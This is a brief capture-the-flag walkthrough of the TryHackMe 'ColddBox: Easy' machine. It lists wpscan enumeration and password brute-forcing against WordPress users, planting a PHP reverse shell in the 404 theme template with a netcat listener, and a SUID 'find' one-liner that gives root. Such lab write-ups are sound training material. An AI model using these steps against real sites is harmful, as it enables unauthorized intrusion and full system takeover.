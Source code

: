 ```yaml
---
title: ColddBox:Easy WalkThrough
permalink: /CTF/colddbox
layout: page
tags: TryHackMe
---
```

# ColddBox:Easy
# ![front](/images/coldd/front.png)
[https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

## Open Ports:
- 9: discard
- 80: HTTP

![ports](/images/coldd/ports.png)
	
## Gaining Access:
* Found a wordpress website with version on **nmap** scan `4.1.31`
```
$ wpscan --url http://10.10.176.163  -e vp,vt,u       
````	
![wp](/images/coldd/wp.png)

* Found anuthors/users:
![users](/images/coldd/users.png)
 * Hugo
 * C0ldd
 * Philip

* Now performing password bruteforce for these 3 usernames
```
$ wpscan --url  http://10.10.176.163 --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd,hugo,philip
```
![passwd](/images/coldd/passwd.png)

* Using this password we can login to /wp-admin
* Go to appearance and editor, select `404 templet` to edit.
* Paste the php revshell from pentestmonkey in the editor 
* Start the listener `nc`
* To execute the revsheel access: `http://ip/>p=404.php`
* Unable to access usr.txt
* Uploading linpeas.sh
* Found suid set on **_find_**
```
$ /usr/bin/find . -exec /bin/sh -p \; -quit
```
*  Now we have root access.

### User Flag:
![uf](/images/coldd/uflag.png)

## Root Flag:
![root](/images/coldd/root.png)
